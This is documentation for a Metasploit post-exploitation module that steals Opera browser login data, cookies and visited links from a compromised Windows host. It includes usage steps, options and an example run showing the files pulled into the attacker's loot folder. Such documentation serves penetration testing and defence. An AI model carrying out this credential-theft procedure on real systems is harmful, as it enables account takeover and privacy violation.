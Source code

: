 ## Module Description

This post-exploitation module gathers artifacts found on Opera related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/opera
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/opera) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Opera's parent folder found
[*] Opera's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Login Data
[*] Opera Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513121928_default_192.168.56.106_operaLoginData_680711.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121928_default_192.168.56.106_EXTRACTIONSLogin_648131.bin
[*] Opera's parent folder found
[*] Opera's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Cookies
[*] Opera Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaCookies_000286.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121929_default_192.168.56.106_EXTRACTIONSCooki_563880.bin
[*] Opera's parent folder found
[*] Opera's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Visited Links
[*] Opera Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaVisitedLin_749388.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```